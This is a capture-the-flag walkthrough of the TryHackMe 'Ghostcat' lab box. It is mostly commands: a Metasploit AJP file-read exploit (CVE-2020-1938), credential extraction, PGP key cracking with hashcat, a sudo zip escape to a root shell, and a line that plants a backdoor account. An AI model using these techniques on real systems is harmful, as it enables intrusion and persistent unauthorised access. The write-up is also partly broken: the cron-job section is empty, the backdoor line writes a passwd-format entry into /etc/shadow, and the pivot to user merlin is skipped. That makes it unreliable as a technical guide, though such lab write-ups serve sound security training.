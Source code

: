 # TryHackMe - Ghostcat Exploitation Walkthrough

## **1. Initial Enumeration with Nmap**
We begin by scanning the target with **Nmap** to identify open ports and running services:

```bash
nmap -sC -sV -p- 10.10.170.30
```

### **Nmap Results:**
```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
8080/tcp open  http       Apache Tomcat 9.0.30
```

From the scan results, we identify an **Apache JServ Protocol (AJP) service** running on port **8009**, which is vulnerable to **Ghostcat** (CVE-2020-1938).

---
## **2. Searching for Exploits**
Using `searchsploit`, we confirm that **Ghostcat** is a known vulnerability:

```bash
searchsploit Apache Jserv v1.3
```

This confirms the vulnerability **Apache Tomcat - AJP 'Ghostcat' File Read/Inclusion** (CVE-2020-1938).

### **Exploit-DB Reference:**  
- [https://www.exploit-db.com/exploits/48143](https://www.exploit-db.com/exploits/48143)

Since the **Exploit-DB version is outdated**, we use **Metasploit**.

---
## **3. Exploiting Ghostcat via Metasploit**

### **Setting up the Module**
Launch **Metasploit**:
```bash
msfconsole
```

Load the Ghostcat module:
```bash
use auxiliary/admin/http/tomcat_ghostcat
```

Set the target IP and port:
```bash
set RHOST 10.10.170.30
set RPORT 8009
set FILENAME /WEB-INF/web.xml
```

Execute the exploit:
```bash
exploit
```

### **Extracted Credentials from web.xml:**
```
skyfuck:8730281lkjlkjdqlksalks
```

Now, we have credentials for a possible user account.

---
## **4. Checking for Scheduled Cron Jobs**
After gaining access to the system, check for scheduled cron jobs:


## **5. Extracting SSH Private Key**
Looking at `/home/skyfuck/`, we find a **PGP encrypted key**:

```bash
/home/skyfuck/tryhackme.asc
```

We transfer it to our machine using `scp`:
```bash
scp skyfuck@10.10.170.30:/home/skyfuck/tryhackme.asc .
```

Convert the key to a crackable format using **gpg2john**:
```bash
gpg2john tryhackme.asc > hash.txt
```

Use **Hashcat** to crack it:
```bash
hashcat -m 22600 hash.txt /usr/share/wordlists/rockyou.txt --force
```

After cracking, import the key:
```bash
gpg --import tryhackme.asc
```

Decrypt the `credentials.pgp` file:
```bash
gpg --decrypt credentials.pgp
```

Extracted password:
```
asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123jS
```

---
## **6. Switching to User merlin**
Now, we switch to **merlin** using the found credentials:
```bash
su merlin
```

---
## **7. Privilege Escalation via Zip Exploit**
User **merlin** has **sudo** privileges for `/usr/bin/zip`:

```
User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

We can abuse **zip's -T option** to escalate to root:

```bash
sudo zip /tmp/root.zip /etc/passwd -T --unzip-command="sh -c 'exec /bin/bash -p'"
```

### **Explanation:**
- `sudo zip /tmp/root.zip /etc/passwd` → Creates a zip archive.
- `-T` → Tests the archive's integrity.
- `--unzip-command` → Executes a shell command instead of extracting.
- `exec /bin/bash -p` → Spawns a **privileged root shell**.

---
## **8. Confirm Root Access**
Once inside the root shell, verify privileges:
```bash
whoami
id
```

We now have **root access** on the machine!

---
## **9. Post-Exploitation Steps**
- **Retrieve Flags:**
  ```bash
  cat /root/root.txt
  cat /home/skyfuck/user.txt
  ```
- **Check for additional credentials:**
  ```bash
  cat /etc/shadow
  ```
- **Maintain access (if needed):**
  ```bash
  echo 'hacker:$6$randomsalt$hashhere:0:0:root:/root:/bin/bash' >> /etc/shadow
  ```

---
## **10. Conclusion**
- **Enumeration with Nmap** revealed Apache JServ (AJP) service.
- **Ghostcat exploit** allowed us to extract user credentials.
- **SSH private key cracking** helped us switch to `merlin`.
- **Exploiting Sudo permissions on zip** provided **root access**.

**Rooted the box successfully! 🎉**

